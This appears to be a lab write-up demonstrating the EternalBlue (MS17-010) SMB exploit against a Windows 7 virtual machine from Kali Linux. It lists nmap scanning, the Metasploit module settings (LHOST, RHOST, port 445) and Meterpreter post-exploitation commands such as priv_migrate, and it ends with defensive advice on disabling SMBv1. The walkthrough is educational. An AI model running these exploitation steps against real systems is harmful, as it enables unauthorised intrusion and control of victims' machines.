

# MS17-010 | EternalBlue Vulnerability Demonstration

---

**Disclaimer** 

**This activity is intended for Ethical hacking and education purposes only. Unauthorised access or testing is illegal and unethical. Always follow laws and regulations.**

---

## Lab setup & Environment

**Operating system:** Windows 10

**Virtualisation software:** Oracle virtual machine (version 7.1.0 r164728 (Qt6.5.3))

**Download Oracle Virtual Machine:**

https://www.oracle.com/au/virtualization/technologies/vm/downloads/virtualbox-downloads.html

## Virtual machines

**Windows 7 (64 bits)**

IP address: 192.168.0.141

Type: Victim

**Download Windows 7 ISO image link:**

https://archive.org/details/Windows7-iso

**Kali Linux**

Ip address: 192.168.0.78

Type: Attacker

Tools used: Nmap, Nessus, Metasploit framework

**Download Kali Linux:**

https://www.kali.org/get-kali/#kali-platforms

## Tools used:

**Nmap:** Port scanning

**Nessus:** Vulnerability scanning

**Metasploit framework (Msfconsole):** For exploitation and post exploitation

## Target Vulnerability:

**Name:** EternalBlue (MS17-010)

**CVE ID:** CVE-2017-0144

**Type:** Remote code execution

**Service affected:** SMB v1 (Port 445)

---

## Steps-by-steps Process
### Setup Oracle virtual box

  

### Command:
**Ping from kali Linux to windows:**

ping 192.168.0.141

**Ping from windows to kali Linux**

ping 192.168.0.78

 
 

**Successful ping**

### Nessusd start and IP address:

https://localhost:8834

 

### Vulnerability report

 

### Nmap 

nmap 192.168.0.141
 
 

---

## Exploitation

### Commands:

**Msfconsole**

  

**search ms1_010**

  
  
**use exploit/windows/smb/ms17_010_eternalblue**
 
 
 
**option command**
 
 

 
LHOST: 192.168.0.78

RHOST: 192.168.0.141 (Victim)

RPORT: 445
 
 

---
 
## Post exploitation

### Commands and their use:

**Meterpreter > getuid = Displays the username that the Meterpreter session is running as.**

 

 ---

### System Information

 

 
### Getting high level privilege
Meterpreter > run post/windows/manage/priv_migrate = get more privileged access

  

### Screenshot command
 
 

 
### Going into Desktop
 
 

 
### Creating folder
 
 

 
 
 

### Shutdown command
 

### END

---

## For Defense

**Enable automatic updates for OS**

**Always apply latest Windows updates**

**Disable SMBv1 (For EternalBlue)**

**Powershell cmd:**

dism /online /norestart /disable-feature /featurename:SMB1Protocol

**Enable firewall/ window defender**

**Block unwanted incoming/outgoing traffic**

**Create rules to block ports (eg 445 for SMB)**

**Use of antivirus and scheduled scans**

---

